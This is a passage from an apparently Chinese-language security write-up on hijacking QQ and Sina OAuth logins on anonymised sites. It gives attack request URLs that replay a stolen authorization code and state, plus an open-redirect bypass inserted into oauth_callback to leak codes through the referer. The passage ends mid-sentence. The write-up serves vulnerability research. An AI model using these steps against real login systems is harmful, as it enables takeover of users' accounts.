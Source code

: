 黑客回到刚刚获取`state`参数的浏览器，访问
```
http://account.AAA.com/qqlogin.php?code=C35B9259FB0E81135F126AFA50FC967B&state=7fd233c9f34a007745e2773755121b53
```

黑客成功登录用户账户
![13.png](C:\Users\todaro\Desktop\2018.1.20\8.png)
黑客随后请求
```
http://account.AAA.com/?p=login_success&error=0&message=&next=http%3A%2F%2Fi.AAA.com&secure=1&from=login&nerror=
```
黑客接着请求`https://passport.BBB.com`

黑客成功登录其BBB.com账户
![14.png](C:\Users\todaro\Desktop\2018.1.20\10.png)
至此完成了对qq授权登录账户的劫持，qq授权每次都是要点击头像授权的，所以它不像新浪那么方便。

#### 【3】当授权返回地址限制到特定域名但是没有限制到特定目录时还是会出问题

当在新浪设置`oauth_callback`为`account.AAA.com`而不是`account.AAA.com/sinalogin.php`时，如果`account.AAA.com`域名下存在重定向漏洞，那么还是可以通过referer将授权数据传递出去。

于是接下来最关键的是找到`account.AAA.com`域名下的重定向漏洞

比如
```
https://account.AAA.com/?p=login_success&error=0&message=&next=http://i.AAA.com/&secure=1&from=login&nerror=
```
和
```
https://passport.AAA.com/logout?to=https://baidu.com/
```
前者需要登录后访问，后者都退出了，即使获取到code也是没有用，都被销毁了。

如果直接修改`next`参数为`www.baidu.com`
即
```
https://account.AAA.com/?p=login_success&error=0&message=&next=http://www.baidu.com/&secure=1&from=login&nerror=
```
并不会跳到`http://www.baidu.com`

简单绕过，即
```
https://account.AAA.com/?p=login_success&error=0&message=&next=http://i.AAA.com.www.baidu.com/&secure=1&from=login&nerror=
```
则能正确跳转到`http://i.AAA.com.www.baidu.com/`

那直接把链接放到`oauth_callback`即
```
http://api.t.sina.com.cn/oauth/authorize?oauth_token=7d5484c0f195334471a44b04ff5d3cf7&oauth_callback=https://account.AAA.com/?p=login_success&error=0&message=&next=http://i.AAA.com.www.baidu.com/&secure=1&from=login&nerror=
```
还是不行的，观察请求数据你就会发现
